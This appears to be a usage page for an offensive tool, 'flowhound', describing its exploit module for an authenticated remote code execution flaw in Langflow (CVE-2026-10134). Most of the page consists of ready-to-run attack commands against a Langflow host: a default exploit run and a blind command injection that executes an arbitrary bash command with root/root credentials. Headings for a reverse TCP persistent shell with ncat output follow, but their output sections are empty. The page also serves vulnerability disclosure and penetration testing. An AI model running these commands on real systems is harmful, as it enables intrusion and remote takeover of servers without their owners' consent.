





# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability impacting Langflow that allows attackers to execute arbitrary code under the context of the running Langflow instance by modifying the public flow's `tool_code` so normal `/api/v1/build/...` calls by any user re-execute attacker code at each build.

**Impacted Versions:** Langflow versions 1.0.0 through 1.9.3


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-10134
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-10134 --command "echo 'pwned' > /tmp/pwned.txt"
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.

### FlowHound CLI Output



### Langflow Docker Container Filesystem Artifact



## Reverse TCP Persistent Connection

### FlowHound CLI Output



### NCat Output

